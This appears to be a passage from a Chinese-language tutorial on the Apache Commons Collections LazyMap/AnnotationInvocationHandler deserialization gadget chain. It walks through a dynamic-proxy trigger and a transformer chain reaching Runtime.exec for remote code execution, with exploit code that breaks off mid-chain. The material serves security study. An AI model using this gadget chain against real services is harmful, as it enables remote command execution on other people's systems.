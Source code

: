 ```java
        Constructor<?> constructor = clazzSink.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler annotationInvocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, lazyMap);
        Map proxy = (Map) Proxy.newProxyInstance(
                lazyMap.getClass().getClassLoader(),
                lazyMap.getClass().getInterfaces(),
                annotationInvocationHandler);
        proxy.clear();
    }
}
```

创建了一个动态代理 proxy，它的调用处理器是 annotationInvocationHandler，在初始化的时候就给 annotationInvocationHandler 传了一个 Retention.class（这里的 Retention.class 不是必须的，任意一个注解类型的 class 即可）和 lazyMap，然后调用 proxy 的特定方法（不是任意的，得过掉一些 if、switch 判断，不能是 equals、toString、hashCode、annotationType，且是一个无参方法），如下图-->

![](image-83.png)

接着就会自动调用 annotationInvocationHandler 的 invoke 方法，在 invoke 方法中就会调用 lazyMap 的 get 方法，而 lazyMap 的 get 方法中就会调用 chainedTransformer 的 transform 方法，当然这里是有一个前提的：map 中不能包含 key 这个键，具体如下-->

![](image-84.png)

这里 map 中只有 value 一个键，肯定不包含 clear，所以是可以的，进而最后调用到 invokerTransformer 的 transform 方法，最后 RCE。命令成功执行如下-->

![](image-48.png)

## 完结撒花

最后就是收尾环节，只需要找一个类，它的 readObject 函数中调用了一个无参方法，且是一个合格的入口类，合格就是参数接受 Object、最好存在 parm.xxx()，试试之前的 HashMap 函数，想着调用一下 hashCode 函数试试，如下-->

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class Example {
    public static void main(String[] args) throws Exception {
        Class<?> clazz = Class.forName("java.lang.Runtime");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
```